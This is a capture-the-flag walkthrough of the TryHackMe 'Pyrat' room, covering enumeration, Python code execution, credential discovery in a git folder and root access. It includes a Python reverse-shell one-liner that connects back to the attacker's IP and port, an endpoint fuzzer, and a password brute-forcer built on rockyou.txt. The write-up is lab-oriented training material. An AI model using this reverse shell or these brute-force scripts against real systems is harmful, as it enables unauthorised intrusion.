

# Pyrat - (THM)

# Overview

## Scenario description given by THM

```bash
Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.
```

Things we can guess from this:

1. We will be using/developing a python script to get a reverse shell into the HTTP server.
2. From the reverse shell we will be able to get into the directories and get access to creds along with app meta data
3. We will need to develop another script to explore other endpoints connected. 
4. We will need to Fuzz passwords. 

# Enumeration

```bash
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMc4hLykriw3nBOsKHJK1Y6eauB8OllfLLlztbB4tu4c9cO8qyOXSfZaCcb92uq/Y3u02PPHWq2yXOLPler1AFGVhuSfIpokEnT2jgQzKL63uJMZtoFzL3RW8DAzunrHhi/nQqo8sw7wDCiIN9s4PDrAXmP6YXQ5ekK30om9kd5jHG6xJ+/gIThU4ODr/pHAqr28bSpuHQdgphSjmeShDMg8wu8Kk/B0bL2oEvVxaNNWYWc1qHzdgjV5HPtq6z3MEsLYzSiwxcjDJ+EnL564tJqej6R69mjII1uHStkrmewzpiYTBRdgi9A3Yb+x8NxervECFhUR2MoR1zD+0UJbRA2v1LQaGg9oYnYXNq3Lc5c4aXz638wAUtLtw2SwTvPxDrlCmDVtUhQFDhyFOu9bSmPY0oGH5To8niazWcTsCZlx2tpQLhF/gS3jP/fVw+H6Eyz/yge3RYeyTv3ehV6vXHAGuQLvkqhT6QS21PLzvM7bCqmo1YIqHfT2DLi7jZxdk=
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJNL/iO8JI5DrcvPDFlmqtX/lzemir7W+WegC7hpoYpkPES6q+0/p4B2CgDD0Xr1AgUmLkUhe2+mIJ9odtlWW30=
|   256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFG/Wi4PUTjReEdk2K4aFMi8WzesipJ0bp0iI0FM8AfE
8000/tcp open  http-alt syn-ack ttl 61 SimpleHTTP/0.6 Python/3.11.2
|_http-favicon: Unknown favicon MD5: FBD3DB4BEF1D598ED90E26610F23A63F
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2

```

While i was waiting for the enumeration to be completed I thought I should do some manual Enumeration to see what shows up 

```bash
└─$ curl http://pyrat.thm:8000 -v
* Host pyrat.thm:8000 was resolved.
* IPv6: (none)
* IPv4: 10.10.209.174
*   Trying 10.10.209.174:8000...
* Connected to pyrat.thm (10.10.209.174) port 8000
* using HTTP/1.x
> GET / HTTP/1.1
> Host: pyrat.thm:8000
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Server: SimpleHTTP/0.6 Python/3.11.2
< Date: Thu May 08 11:08:39  2025
< Content-type: text/html; charset=utf-8
< Content-Length: 27
< 
* Excess found writing body: excess = 3, size = 27, maxdownload = 27, bytecount = 27
* shutting down connection #0
Try a more basic connection   #<- the response                                                                             

```

This response I received was a bit underwhelming, this led me to think about a more basic way to enumerate this. Which would be netcat which can also be used for banner garbing 

```bash
┌──(kali㉿vbox)-[~/Documents/Rooms/pyrat]
└─$ nc pyrat.thm 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.7
                                                                                
┌──(kali㉿vbox)-[~/Documents/Rooms/pyrat]
└─$ nc pyrat.thm 8000
hello
name 'hello' is not defined
does this work
invalid syntax (<string>, line 1)
import os 

^C

┌──(kali㉿vbox)-[~/Documents/Rooms/pyrat]
└─$
```

- we can we see are able to run a python on the machine, due to the invalid syntax return

# Initial Exploitio

```bash

#the script used to get a reverse shell onto the machine. 
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.84.253",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh"
# we use the following script found online to open a nc -nvlp on port 1337 as per the script. 
```

on my local machine, I listed on port 1337;

```python
nc -nvlp 1337
```

## Automated enumeration with linpeas

To simplify credential hunting, I transferred and executed LinPEAS:

by hosting it on my  machine:

```python
python3 -m http.server 80
```

and on the shell i sed the following commands



## Git directory found via linpeas


After looking through the directory, my suspicions were confirmed—I found a password for the user ‘think.’ Hopefully, he reuses his passwords, allowing me to access his account through this.


## User Think Credentials obtained.

Using the password, I switched to user `think` and retrieved the user flag.

: This made me realize just how useful the introduction was. At first, it seemed obscure, but rereading it felt like solving a puzzle—uncovering clues as if I were in a mystery novel. I feel like Sherlock lol!


# Enumeration to a older version of the application

```bash
think@Pyrat:/opt/dev$ git log
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint
think@Pyrat:/opt/dev$ git show 0a3c36d66369fd4b07ddca72e5379461a63470bf 
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint

diff --git a/pyrat.py.old b/pyrat.py.old
new file mode 100644
index 0000000..ce425cf
--- /dev/null
+++ b/pyrat.py.old
@@ -0,0 +1,27 @@
+...............................................
+
+def switch_case(client_socket, data):
+    if data == 'some_endpoint':
+        get_this_enpoint(client_socket)
+    else:
+        # Check socket is admin and downgrade if is not aprooved
+        uid = os.getuid()
+        if (uid == 0):
+            change_uid()
+
+        if data == 'shell':
+            shell(client_socket)
+        else:
+            exec_python(client_socket, data)
+
+def shell(client_socket):
+    try:
+        import pty
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e
+
+...............................................

# from what i understand from the script above, its looking for some specific enndpoint. Maybe we can use fuzing to try
```

### Custom App Requirments

1. Loop through a list of possible parameters
2. tell me if the parameter is correct
3. send the request to the IP on port 8000

## Custom Python Script to fuzz for the endpoint

```python
import socket

targethost = 'pyrat.thm'  # using /etc/hosts entry
port = 8000

# Setting up a wordlist for fuzzing
wordlist = "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"

# Requesting the endpoint with a persistent socket connection
def fuzz_endpoint(wordlist):
    try:
        with open(wordlist, 'r') as file:
            # Connecting to the server once
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as con:
                con.connect((host, port))
                con.settimeout(2)  # avoid hanging if server stops responding

                for word in file:
                    command = word.strip()
                    # Send the fuzzing input
                    con.sendall(command.encode() + b'\n')

                    try:
                        # Try to receive a response
                        response = con.recv(4096).decode(errors="ignore").strip()

                        # Valid responses (excluding known junk)
                        if (
                            response != "" and
                            "is not defined" not in response and
                            "leading zeros in decimal" not in response
                        ):
                            print(f"Received from input '{command}': {response[:80]}...")
                    except socket.timeout:
                        # Some inputs may not trigger a response
                        continue

    except FileNotFoundError:
        print("Wordlist file not found.")
    except Exception as e:
        print(f"Error occurred: {e}")

fuzz_endpoint(wordlist)
```

This confirmed that `admin` is a valid endpoint, prompting for a password.


## Custom Python Script for Password Spaying

```python
import socket
import sys

# Setting up connection
host = 'pyrat.thm'
port = 8000
pass_wordlist = "/usr/share/wordlists/rockyou.txt"

def fuzz_pass(pass_wordlist):
    try:
        with open(pass_wordlist, 'r') as file:
            for password in file:
                password = password.strip()
                
                # Establishing connection to the server
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as conn:
                    conn.connect((host, port))
                    
                    # As we know 'admin' is accepted
                    conn.sendall(b'admin\n')
                    
                    # Get the password prompt
                    response = conn.recv(1024).decode(errors='ignore').strip()
                    
                    if "password" in response.lower():
                        conn.sendall((password + '\n').encode())
                        
                        # Response after sending the password
                        response = conn.recv(1024).decode(errors='ignore').strip()
                        
                        # Check if the password is still required
                        if "password:" in response.lower():
                            continue
                        else:
                            print(f'WeDidItWeDidItWeDidHurray: {password}')
                            break
                    else:
                        print("No password prompt received.")
                        break
                        
    except FileNotFoundError:
        print("Password wordlist not found.")
    except Exception as e:
        print(f"Error occurred: {e}")

# Start fuzzing
fuzz_pass(pass_wordlist)
```

Password spraying succeeded, and I gained root access. The final flag was located.


# Learning/Key takeaways

- You dont want SSH running publicly as a threat actor will be able to obtain the banner and find out potential information about your machine.
- The challenge highlighted how even unhelpful error messages like "invalid syntax" can give you a lot of information — here, it exposed that the back end was parsing Python input directly.
- A Python-based service reflecting input errors is a red flag — especially when it leaks file paths or code structure. It’s a subtle but powerful clue that you might have RCE.
- Reading through `dev` or `.git` folders can be a goldmine— you can uncover how the app was built, changes over time, and hidden routes like `/shell` that weren’t immediately obvious.
- Writing a simple Python fuzzer allowed me to test multiple payloads quickly and in a more targeted way, which helped confirm the command injection and later helped enumerate the file system.
- LinPEAS helped massively after the initial foothold, especially when it revealed a user’s Bash history that contained hard coded credentials — probably from testing or laziness.
- Manual enumeration was more helpful in this room than relying on tools. Netcat, `curl`, and reading through service output by hand gave better insight into how the app behaved.
- The escalation flow here is a classic: *Python eval vuln ➔ credential leak ➔ git secrets ➔ root via admin bypass*.
